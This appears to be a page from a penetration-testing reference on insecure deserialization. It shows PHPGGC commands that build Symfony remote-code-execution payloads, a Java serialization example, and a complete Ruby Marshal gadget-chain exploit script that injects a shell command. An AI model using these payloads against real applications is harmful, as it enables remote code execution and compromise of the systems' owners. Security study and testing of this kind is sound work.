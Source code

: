 ```yaml
---
title: Insecure Deserialization
description: Insecure deserialization is when user-controllable data is deserialized by a website. This potentially enables an attacker to manipulate serialized objects in order to pass harmful data into the application code.
badge: Web
---
```



## PHP

### PHP's Serialized objects format

### PHPGGC

PGP Generic Gadget Chains (PHPGGC)

#### Installation

<smart-tabs variable="tool-docker-vs-cli" :tabs="{'docker': 'Docker', 'cli': 'Command Line'}">
<template v-slot:docker>

Simply clone the repo, build the image and tag it like you want:
```bash
git clone "https://github.com/ambionics/phpggc.git" {{ tmp-dir /tmp/phpgcc }}
docker build -t {{ image-tag phpggc }} {{ tmp-dir /tmp/phpgcc }}
```


</template>
<template v-slot:cli>

> PHP >= 5.6 is required to run PHPGGC.
```bash
git clone https://github.com/ambionics/phpggc.git phpgcc
```
The executable will be at `${PWD}/phpgcc/phpgcc`. It is advisable to add it to your path

</template>
</smart-tabs>




#### Usage
You can list the available gadgets with phpggc -l:

<smart-tabs variable="tool-docker-vs-cli" :tabs="{'docker': 'Docker', 'cli': 'Command Line'}">
<template v-slot:docker>

```bash
docker run --rm {{ image-tag phpggc }} -l
```

</template>
<template v-slot:cli>

```bash
phpggc  -l
```

</template>
</smart-tabs>


Usually this gadget chains ask you to specify a function to be called and arguments. Typically you will be going for RCEs, so here is an example using the `system` function:

<smart-tabs variable="tool-docker-vs-cli" :tabs="{'docker': 'Docker', 'cli': 'Command Line'}">
<template v-slot:docker>

```bash
docker run --rm {{ image-tag phpggc }} -b "Symfony/RCE4" "system" "{{ payload id }}" | clip.exe
```

</template>
<template v-slot:cli>

```bash
phpggc -b "Symfony/RCE4" "system" "{{ payload id }}" | clip.exe
```

</template>
</smart-tabs>



## Java

### ysoserial

### Using custom gadget chains

If you got access to some source code, you might want to develop your own gadget chain. The following snippet can be used as an example of how to serialize and deserialize objects in Java:

```java[Main.java]
import data.Foo;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.util.Base64;

class Main {
    public static void main(String[] args) throws Exception {
        Foo originalObject = new Foo("str", 123);

        String serializedObject = serialize(originalObject);
        System.out.println("Serialized object: " + serializedObject);

        Foo deserializedObject = deserialize(serializedObject);
        System.out.println("Deserialized data str: " + deserializedObject.str + ", num: " + deserializedObject.num);
    }

    private static String serialize(Serializable obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream(512);
        try (ObjectOutputStream out = new ObjectOutputStream(baos)) {
            out.writeObject(obj);
        }
        return Base64.getEncoder().encodeToString(baos.toByteArray());
    }

    private static <T> T deserialize(String base64SerializedObj) throws Exception {
        try (ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base64SerializedObj)))) {
            @SuppressWarnings("unchecked")
            T obj = (T) in.readObject();
            return obj;
        }
    }
}
```


## Ruby

### Ruby 2.X deserialization RCE

Therre is a known gadget chain that achieves RCE on Ruby applications. The requsites are as follows:
1. The ActiveSupport gem **must** be installed and loaded.
2. ERB from the standard library **must** be loaded (_which Ruby does not load by default_).
3. After deserialization, a method that does not exist must be called on the deserialized object.

> While these pre-requisites will almost certainly be fulfilled in the context of any Ruby on Rails web application, they are rarely fulfilled by other Ruby applications.

```ruby[deserialzationRORexploit.rb]
#!/usr/bin/env ruby

class Gem::StubSpecification
	def initialize; end
end

stub_specification = Gem::StubSpecification.new
stub_specification.instance_variable_set(:@loaded_from, "|{{ payload whoami }} 1>&2")

puts "STEP n"
stub_specification.name rescue nil
puts

class Gem::Source::SpecificFile
	def initialize; end
end

specific_file = Gem::Source::SpecificFile.new
specific_file.instance_variable_set(:@spec, stub_specification)

other_specific_file = Gem::Source::SpecificFile.new

puts "STEP n-1"
specific_file <=> other_specific_file rescue nil
puts

$dependency_list = Gem::DependencyList.new
$dependency_list.instance_variable_set(:@specs, [specific_file, other_specific_file])

puts "STEP n-2"
$dependency_list.each{} rescue nil
puts

class Gem::Requirement
	def marshal_dump
		[$dependency_list]
	end
end

payload = Marshal.dump(Gem::Requirement.new)

puts "STEP n-3"
Marshal.load(payload) rescue nil
puts

puts "VALIDATION (in fresh ruby process):"
IO.popen("ruby -e 'Marshal.load(STDIN.read) rescue nil'", "r+") do |pipe|
	pipe.print payload
	pipe.close_write
	puts pipe.gets
	puts
end

puts "Payload (hex):"
puts payload.unpack('H*')[0]
puts
require "base64"
puts "Payload (Base64 encoded):"
puts Base64.encode64(payload)
```
